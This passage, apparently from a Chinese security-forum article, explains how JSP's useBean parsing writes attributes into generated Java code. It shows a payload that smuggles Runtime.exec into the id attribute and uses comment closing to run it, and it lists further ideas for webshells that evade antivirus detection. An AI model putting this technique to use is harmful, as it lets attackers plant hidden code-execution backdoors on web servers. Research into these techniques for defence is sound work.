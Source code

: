 - **page**: Bean仅在当前页面可用。
- **request**: Bean在一次请求中可用，可以跨多个页面（只要请求是同一个）。
- **session**: Bean在用户的会话中可用，跨多个请求和页面。
- **application**: Bean在整个Web应用的生命周期内可用，跨所有的会话和请求。

##### useBean 解析过程

```php
（1）拿到每个属性
（2）拿到classLoader去寻找class
（3）反射拿到无参构造方法
 ....
 ....
 ....
```

其实这里就看出来会将id、scope、等信息写入到`stringWriter`中

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/12/attach-a200cf2af0d06ebe02caae29f5a47123230def9d.png)  
那么也就是说，当我里面有恶意字符来进行**闭合**的时候，就有可能会导致恶意代码执行(仔细观察会发现，写入的部分很多)

我们不好控制写入的内容和生成的位置，而`Script(<%%>)`的生成是在最后，所以我们可以手动进行闭合。

```php
<jsp:useBean id="a=null;java.lang.Runtime.getRuntime().exec(\"open -a calculator\");/*" class="org.aa.test"/>  

<%*/out.print(1);%>
```

genrate java的其他trick
--------------------

*因为偏离主题，这里不进行详细缀饰*

- 在上面讲到jsp会再次读取，那么能否让jsp文件编码和`pageencding`不一致来进行二次绕过呢？
- 在AST树生成过程中，发现了会进行`skipspace`函数，而该函数会判断是否为`ascii<32`，那么是否利用此特性来进行绕过？

参考
==

- [浅谈JspWebshell之编码](https://tttang.com/archive/1840/#toc__6)
- [利用JSP的编码特性制作免杀后门](https://www.cnblogs.com/Aurora-M/p/15835655.html)
